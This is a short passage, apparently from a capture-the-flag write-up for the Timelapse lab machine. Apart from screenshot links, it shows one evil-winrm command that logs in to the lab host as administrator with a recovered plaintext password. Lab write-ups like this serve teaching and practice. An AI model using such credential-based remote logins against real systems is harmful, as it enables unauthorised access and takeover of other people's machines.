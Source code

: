 ![screenshot](/assets/images/timelapse22.png)
## Evil-winrm as admin
```sh
evil-winrm -i timelapse.htb -S -u administrator -p '55T{8XL047sxk(5Iv}fK3o02'
```

![screenshot](/assets/images/timelapse23.png)

